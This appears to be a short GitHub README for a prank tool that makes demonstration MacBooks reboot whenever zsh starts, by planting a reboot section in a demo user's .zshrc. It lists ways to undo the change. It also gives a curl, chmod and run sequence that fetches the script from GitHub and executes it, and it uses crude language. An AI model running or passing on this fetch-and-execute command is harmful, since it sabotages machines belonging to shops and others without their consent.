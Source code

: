 # dmf
Demo Macbook Fucker

#### The goal is to fuck the demonstration macbook

- dmf will only reboot the mac when zsh is started

#### Revert the reboot

- use something else than zsh
- remove the "reboot" section in the zshrc
- delete .zshrc file
- login using another user and remove the .zshrc "reboot" section from the "demoadmin" user

## CURL

```BASH
curl https://raw.githubusercontent.com/Neotoxic-off/dmf/main/dmf >> dmf
chmod +x dmf
./dmf
```
